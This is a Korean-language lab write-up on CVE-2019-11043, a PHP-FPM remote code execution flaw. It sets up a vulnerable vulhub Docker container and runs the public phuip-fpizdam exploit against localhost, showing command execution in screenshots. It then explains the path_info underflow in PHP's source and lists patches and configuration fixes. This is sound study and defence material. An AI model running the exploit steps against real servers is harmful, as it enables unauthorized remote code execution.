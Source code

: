 # CVE-2019-11043

웹서버와 PHP를 연결해주는 기능인 PHP-FPM 에서 취약점 발생
<br>

## 0. 취약한 환경 버전

> PHP FPM 7.1.x ~ 7.1.33 

> PHP FPM 7.2.x ~ 7.2.24

> PHP FPM 7.3.x ~ 7.3.11

<br>

## 1. 환경 구성

> **ubuntu 20.04**
>
> **docker**
>
> **golang**

<br>

> CVE-2019-11043 폴더 생성

```
mkdir CVE-2019-11043
```

<br>

> CVE-2019-11403 폴더 내 도커 파일 다운

```
wget https://raw.githubusercontent.com/vulhub/vulhub/master/php/CVE-2019-11043/default.conf
wget https://raw.githubusercontent.com/vulhub/vulhub/master/php/CVE-2019-11043/docker-compose.yml
```

<br>

> CVE-2019-11043에 하위 폴더 www 생성

```
CVE-2019-11043$ mkdir www
```

<br>

> www폴더 내 인덱스 페이지 다운

```
wget https://raw.githubusercontent.com/vulhub/vulhub/master/php/CVE-2019-11043/www/index.php
```

<br>

> 폴더 내 파일 확인

![1](https://user-images.githubusercontent.com/89399749/144745932-4312a5ca-5e6d-4a93-9be1-08113b5d1b71.png)


<br>

> CVE-2019-11043 폴더에서 컨테이너 생성 및 백그라운드 실행

```
docker-compose up -d
```
<br>

![2](https://user-images.githubusercontent.com/89399749/144745941-8b64ec89-11ae-4093-897f-1b031b490eb5.png)

<br>

> 도커 컨테이너 확인

![3](https://user-images.githubusercontent.com/89399749/144745945-c45ceb58-b102-4fb7-ab93-d72718b40d27.png)


<br>


> 인덱스 페이지 접속 확인

<kbd>![4](https://user-images.githubusercontent.com/89399749/144745961-46b75f47-f859-4a5b-8b05-7f0e9aa6c8bb.png)</kbd>



<br>

## 2. PoC

일반 사용자로 전환

<br>

> golang 설치

```
apt-get install golang
```
<br>


> phuip-fpizdam 다운로드

```
go get github.com/neex/phuip-fpizdam
go install github.com/neex/phuip-fpizdam
```
![5](https://user-images.githubusercontent.com/89399749/144745958-7a2c1862-836f-4e7f-829c-2f80f3575a5c.png)




<br>

> exploit 실행

```
./phuip-fpizdam http://localhost:8080/index.php
```

![6](https://user-images.githubusercontent.com/89399749/144745965-ee18a087-155a-4e45-ad89-93bb11e874b0.png)



<br>

> 원격 명령어 실행

![7](https://user-images.githubusercontent.com/89399749/144745970-5af4bfa2-5661-4622-8279-3e40ab9d56e3.png)



![8](https://user-images.githubusercontent.com/89399749/144745976-a785d5c8-b495-4c53-9394-365c1649e27d.png)




<br>

## 3. 원인 분석

> php 소스코드 중 path_info에 env_path_info의 산술 연산된 값을 넣는 부분이 있는데, 해당 부분에서 연산된 값에 대한 검증이 없어 취약점 발생

```php
if (apache_was_here) {
 path_info = script_path_translated + ptlen;
 tflag = (slen != 0 && (!orig_path_info || strcmp(orig_path_info, path_info) != 0));
   } else {
     path_info = (env_path_info && pilen > slen) ? env_path_info + pilen - slen : NULL;
     tflag = path_info && (orig_path_info != path_info);
   }
```

<br>

> 공격자가 URL과 쿼리 문자열 길이를 정확하게 맞추면, PATH_INFO를 _fcgi_data_seg의 첫번째 바이트(*pos)로 지정할 수 있고, pos에 0이 들어가면, Underflow가 발생

```c++
typedef struct _fcgi_data_seg {
    char                  *pos;
    char                  *end;
    struct _fcgi_data_seg *next;
    char                   data[1];
} fcgi_data_seg;
```

<br>

> 타겟을 대상으로 다수의 요청이 발생되어 공격자는 다수의 요청 중 길이가 맞는 요청값을 통해 취약점이 발생

![9](https://user-images.githubusercontent.com/89399749/144745979-64f03e69-3b0b-47eb-9f8a-3c7b67d688f1.jpg)



<br>

## 4. 대응 방안

> 패치 버전 7.3.11 , 7.2.24 업그레이드

![10](https://user-images.githubusercontent.com/89399749/144745982-77737cd2-8de1-4a85-91b3-9deb176bf074.png)



<br>

>  try_files 포함 혹은 if문을 통한 검증 코드 구현

## 참조

https://qiita.com/shimizukawasaki/items/39d68a7c658dfa50263d

https://github.com/neex/phuip-fpizdam

https://www.hahwul.com/2019/10/28/php7-underflow-rce-vulnerabliity/

https://saltlee.tistory.com/77



